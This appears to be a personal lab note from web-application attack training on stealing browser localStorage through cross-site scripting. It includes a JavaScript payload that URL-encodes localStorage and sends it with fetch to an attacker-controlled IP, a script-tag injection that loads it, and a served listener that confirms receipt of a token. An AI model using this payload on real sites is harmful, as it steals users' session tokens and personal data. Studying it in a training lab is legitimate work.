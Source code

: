 ------------------
#### 5.1.4 Stealing Local Secrets
Web applications have the ability to store data in a user's browser, a feature typically used to store larger amounts of data. For example, an application that lets us edit documents might store the document locally in the browser as a cache before it's sent to the server to be saved. This ensures that even if the user closes the tab, they don't lose their data. However, local storage might also contain secrets like API keys or personal user information.

There are two types of storage available to us: [_sessionStorage_](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) and [_localStorage_](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage). The only difference between the two is the level of persistence. While localStorage will keep the data until explicitly deleted, sessionStorage will keep the data until the tab is closed. The localStorage data can be accessed by using the _window.localStorage_ property, while sessionStorage can be accessed with _window.sessionStorage_.

To exfiltrate `localStorage`, we'll convert the object into a string, URL encode the string, and use _fetch_ to send the data back to us.

```
┌──(root💀gobots)-[02Aug2024 13:15:17]-[/home/kali/SUT/OSWA/xss]
└─# vim xss3.js   

┌──(root💀gobots)-[02Aug2024 13:15:49]-[/home/kali/SUT/OSWA/xss]
└─# cat xss3.js   
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.45.223/exfil?data=" + encodedData)

┌──(root💀gobots)-[02Aug2024 13:15:57]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Payload to test against own kali machine 1st
```bash
<script src="http://192.168.45.223:80/xss3.js"></script>
```

![[Pasted image 20240802092446.png]]
Upon hitting `search` it gets translated to URL Encoding
![[Pasted image 20240802092609.png]]
Checking the `python3 -m http.server 80` we can see that the payload work
![[Pasted image 20240802092753.png]]
Now since we know that the payload works, check `Data in Local Storage` and hit `Render`
![[Pasted image 20240802093228.png]]
Check the `python3 -m http.server` and can see that the `localStorage` token was sent
![[Pasted image 20240802093357.png]]
